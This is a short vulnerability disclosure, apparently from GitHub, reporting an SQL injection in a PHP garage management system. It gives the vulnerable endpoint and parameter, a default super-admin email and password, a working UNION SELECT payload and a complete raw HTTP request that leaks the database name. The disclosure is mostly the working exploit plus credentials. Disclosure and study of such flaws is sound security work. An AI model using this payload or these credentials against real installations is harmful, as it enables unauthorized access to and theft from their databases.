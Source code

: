 # Garage Management System v1.0 by mayuri_k has SQL injection

BUG_Author: Happyd99

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /garage/editorder.php?id=

Vulnerability location: /garage/editorder.php?id=, id

dbname = garagedb

[+] Payload: /garage/editorder.php?id=-1+union+select+1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23--+ // Leak place ---> id

```sql
GET /garage/editorder.php?id=-1+union+select+1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180587950-b68b55fa-896e-403b-9fe8-825e96a830c9.png)
